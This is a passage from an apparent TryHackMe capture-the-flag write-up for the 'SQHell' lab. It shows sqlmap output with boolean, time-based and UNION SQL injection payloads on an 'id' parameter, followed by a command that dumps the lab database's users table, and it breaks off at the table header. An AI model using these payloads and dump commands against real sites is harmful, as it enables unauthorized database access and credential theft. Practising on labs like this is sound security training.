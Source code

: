 ```text
    Payload: id=1 AND (SELECT 5090 FROM (SELECT(SLEEP(5)))lqAD)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-8909 UNION ALL SELECT CONCAT(0x717a786271,0x7571704e66426443514343787058496b63617949696877694a676b65434e754863564c6c504d4965,0x717a787671),NULL,NULL-- -
---
[22:29:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[22:29:38] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] sqhell_4
[22:29:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:29:38 /2021-06-22/
```

SQLMap has found the database behind the page is sqhell_4. Let's try to dump it:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/user?id=1" -p "id" --dbms=mysql -D sqhell_4 --dump-all --threads 10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:30:58 /2021-06-22/
[22:30:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1578=1578

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5090 FROM (SELECT(SLEEP(5)))lqAD)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-8909 UNION ALL SELECT CONCAT(0x717a786271,0x7571704e66426443514343787058496b63617949696877694a676b65434e754863564c6c504d4965,0x717a787671),NULL,NULL-- -
---
[22:30:58] [INFO] testing MySQL
[22:30:58] [INFO] confirming MySQL
[22:30:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:30:58] [INFO] fetching tables for database: 'sqhell_4'
[22:30:58] [INFO] fetching columns for table 'users' in database 'sqhell_4'
[22:30:58] [INFO] fetching entries for table 'users' in database 'sqhell_4'
Database: sqhell_4
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
```